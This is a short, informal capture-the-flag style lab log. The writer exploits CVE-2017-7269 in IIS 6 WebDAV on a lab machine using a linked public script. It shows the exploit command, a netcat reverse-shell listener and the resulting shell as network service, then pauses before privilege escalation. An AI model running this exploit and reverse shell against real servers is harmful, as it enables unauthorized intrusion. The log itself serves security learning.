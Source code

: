 https://vk9-sec.com/microsoft-iis-scstoragepathfromurl-function-buffer-overflow-cve-2017-7269/

used above POC for identified CVE

got the script from here

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell



initially it was failing 

┌──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python3 iis6.py  10.10.10.14 80 10.10.16.6 4455 
  File "/root/Desktop/THM/iis6-exploit-2017-CVE-2017-7269/iis6.py", line 6
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?



checked the error and found out that code was written for pyton2 and i was running it using python3


so changed that and started a netcat listernet on port 4455

and ran this

──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python2 iis6.py  10.10.10.14 80 10.10.16.6 4455 


got a  shell


──(root💀kali)-[~]
└─# nc -lnvp 4455
listening on [any] 4455 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>



C:\Documents and Settings\All Users>whoami
whoami
nt authority\network service


Now since i am learning windows priv esc as i got went with the writeup here to see how we can manually esclate priv on windows machine


stopped here and wasted 4-5 hrs of my life to get a free course on windows priv esc fundamentals


will get it tomorrow so will continue iwht windows machine tomorrow


Okay so I ma back after leaninghalf the course and repeated the steps till here


